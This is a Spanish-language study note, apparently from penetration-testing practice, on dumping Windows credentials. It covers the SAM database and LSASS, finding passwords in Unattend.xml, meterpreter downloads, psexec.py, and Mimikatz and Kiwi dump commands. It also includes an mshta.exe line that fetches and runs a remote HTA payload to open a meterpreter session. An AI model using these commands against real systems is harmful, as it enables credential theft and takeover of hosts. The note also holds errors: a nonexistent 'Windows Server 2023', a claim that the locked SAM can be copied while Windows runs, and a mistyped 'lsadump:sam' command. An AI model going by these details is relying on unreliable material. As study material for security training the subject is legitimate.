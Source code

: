 30-03-2025 18:56
Status: #idea
Tags: [[Windows Credential Dumping]]

- [[#SAM Database|SAM Database]]
- [[#Buscando contraseñas en ficheros de configuración|Buscando contraseñas en ficheros de configuración]]

# Windows Password Hashes

Windows guarda las hashes de las cuentas de usuarios localmente en la base de datos del SAM (Security Accounts Manager).

La autenticación y verificación de las credenciales de usuario son facilitadas por el Local Security Authority (LSA).

Las versiones de Windows mayores que Windows Server 2023, utilizan dos tipos de hashes: **LM y NTLM**. A partir de Windows Vista, se han desactivado las LM y solo se utiliza el NTLM hashing.

## SAM Database

Como hemos dicho anteriormente, las contraseñas hasheadas de todos los usuarios se guardan en esta base de datos.

Esta base de datos se puede copiar mientras el sistema operativo está funcionando.

El kernel mantiene bloqueada esta base de datos, por lo tanto los atacantes normalmente utilizan técnicas de memoria y herramientas para hacer dump desde el proceso LSASS.

En versiones recientes de Windows, la base de datos SAM está encriptada con una syskey.


> [!TIP] Privilegios y LSASS
> Para poder interactuar con el proceso de lsass necesitaremos permisos elevados o de administrador.


## Buscando contraseñas en ficheros de configuración

Windows permite automatizar tareas repetitivas, como la configuración e instalación de Windows en varios sistemas.

Esto normalmente se consigue con la utilidad "Unattended Windows Setup", que nos permite automatizar la instalación masiva de sistemas Windows.

Esta herramienta utiliza ficheros de configuración que contiene configuraciones específicas, y credenciales de cuentas válidas, especialmente, la contraseña de la cuenta Administrator.

Si estos ficheros se dejan en el sistema después de la instalación, podrán revelar credenciales de usuarios que podrían ser utilizadas por atacantes para autenticarse en el sistema.

Los directorios de estos ficheros son:

- **C:\Windows\Panther\Unattend.xml
- **C:\Windows\Panther\Autounattend.xml**

Estas contraseñas pueden estar presentes con encoding base64.

Para conseguir este fichero en nuestro sistema objetivo, tendríamos que tener acceso a el, ya sea con una sesión de meterpreter o a través de otros exploits.

Si tenemos una sesión de meterpreter, podremos descargar el fichero con el comando download:

```shell
download C:\Windows\Panther\Unattend.xml
```

Una vez tengamos el fichero, podremos hacer un cat y buscar las contraseñas, sobre todo del usuario de administración. Veremos que es una string en base64. Si la metemos en un fichero txt, por ejemplo password.txt, podremos usar la utilidad base64 que ya viene en kali directamente:

```shell
base64 -d password.txt
```

Y esto nos dará la contraseña. Puede que no sea válida, pero podremos probarla con psexec.py:

```shell
psexec.py Administrator@10.10.10.10
```

Si todo sale bien, deberíamos ser NT AUTHORITY\SYSTEM.

## Herramientas

Utilidades que podremos usar serán [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), que nos permitirá ver si existen estos ficheros, ya que es un script que se encarga de ejecutar un audit.

Si queremos ejecutar un cmd como administrador en Windows podremos usar el comando: 

```powershell
runas.exe /user:administrator cmd
```

Si queremos ejecutar una payload desde el cmd de privilegios elevados podemos usar el exploit [**hta_server**](https://www.rapid7.com/db/modules/exploit/windows/misc/hta_server/), que nos proporcionará una url que podremos acceder desde nuestro powershell para conseguir una sesión de meterpreter.

Después desde nuestro powershell ejecutaremos:

```powershell
mshta.exe http://10.10.49.4:8080/Tomvj9c.hta
```

### Mimikatz

Mimikatz es una herramienta para la post-explotación que nos permite extraer contraseñas clear-text.

Lo que hace es extraer hashes del proceso lsass.exe, que es donde se cachean estas.

Podemos ejecutar su ejecutable, o si tenemos una sesión de meterpreter, utilizar el módulo Kiwi.

#### Ejecutable

En Kali tenemos el ejecutable de Mimikatz ya instalado. Se encuentra en la ruta **usr/share/windows-resources/mimikatz/x64/mimikatz.exe**.  

Si tenemos una sesión de meterpreter, podremos subirlo con el comando upload en la carpeta **Temp**, y posteriormente, invocar una shell para ejecutarlo.

```terminal
shell

.\mimikatz.exe
```

Comprobaremos que tenemos los permisos suficientes con este comando:

```terminal
privilege::debug
```

Si nos devuelve un **Privilege '20' OK**, nos está indicando que tenemos suficientes privilegios para hacer el dumping.

Esto lo podremos hacer con el comando:

```terminal
lsadump:sam
```

#### Módulo Kiwi en metasploit

Para cargar el módulo tendremos que hacer: 

```terminal
load kiwi
```

Y posteriormente, se pueden usar varios comandos para conseguir dumpear las hashes, pero entre ellos está:

```terminal
creds_all
```

También podremos usar **lsa_dump_sam** para volcar la base de datos SAM, como vimos anteriormente: 

```terminal
// Vuelca la base de datos SAM
lsa_dump_sam

// Vuelca secretos, donde a veces se pueden encontrar datos interesantes
lsa_dump_secrets
```





---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
